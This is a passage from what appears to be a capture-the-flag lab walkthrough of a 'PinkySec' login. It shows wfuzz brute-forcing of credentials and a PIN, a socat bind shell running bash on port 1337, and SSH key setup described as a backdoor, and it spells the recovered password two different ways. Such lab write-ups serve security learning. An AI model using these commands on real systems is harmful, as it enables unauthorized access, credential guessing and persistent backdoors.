 with our combined information lets add it together and see if we can brute force this PinkySec Login page with wfuzz.

enumerating the correct username password:

    wfuzz -t 150 -w users.txt -w pwds.db -c -d "user=FUZZ&pass=FUZ2Z&pin=11111"  http://192.168.56.118:4480/login.php

![](https://d2mxuefqeaa7sj.cloudfront.net/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553643911179_image.png)


*in a sea of “45 Ch” we have a sole “41 Ch”*


    Username: pinkadmin
    Password: AaPinkSecaAdmin4467

now, lets figure out this pin with wfuzz (while hiding all other responses & 50 threads)

    wfuzz -w crunchpins.txt -c -d "user=pinkadmin&pass=AaPinkSecAdmin4467&pin=FUZZ" --hh 41,45 -t 50 http://192.168.56.118:4480/login.php

![](https://d2mxuefqeaa7sj.cloudfront.net/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553644679549_image.png)


we now own the pin “55849”

Login to web application with all credentials:

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553814570815_image.png)


next we setup a socat listener to connect to port 1337

    socat TCP-LISTEN:1337,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane

connect to newly open port 1337 via socat

    socat FILE:`tty`,raw,echo=0 TCP:192.168.56.118:1337

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553814841573_image.png)


we are now user: pinkysec

next, let’s move to install our ssh key to keep a backdoor.

Create SSH key for pinksec
Local kali:

    ssh-keygen -t rsa -b 2048

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553815003188_image.png)


cat public key so we can install it on our target:

    cat pinksec.pub

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553815088059_image.png)
